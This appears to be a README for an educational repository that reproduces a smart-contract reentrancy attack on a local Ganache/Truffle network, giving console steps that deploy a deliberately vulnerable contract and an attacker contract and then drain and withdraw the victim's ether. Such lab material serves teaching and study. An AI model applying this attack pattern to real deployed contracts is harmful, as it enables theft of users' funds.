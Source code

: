 How to use this repo:

First prepare the environment

1. Install Ganache or other alternative simulator to deploy a local private ETH network
2. Install Truffle Environment

Then we can start to reproduce the reentrancy attack

1. deploy the two contract with command line:
    rm -rf build/
    truffle compile
    truffle migrate --reset

2. enter truffle console:
    truffle console --network development

3. in the truffle console, execute attack:
Suppose there are ten accounts with index from 0-9 and all have 100 ether at first.
    // deploy
    let vulnerable = await VulnerableContractReentrancy.deployed()
    let attacker = await AttackerContractReentrancy.deployed()

    // account 0 transfer 50 ether to Victim Contract
    await vulnerable.depositFunds({from: accounts[0], value: web3.utils.toWei("50", "ether")});

    // check Victim Contract balance
    await web3.eth.getBalance(vulnerable.address);

    // account 1 call attacker contract to steal all balance from victim contract
    await attacker.attack({from: accounts[1], value: web3.utils.toWei("1", "ether")});

    // account withdraw all stealed balance from attacker contract
    await attacker.withdrawStolenFunds({from: accounts[1]});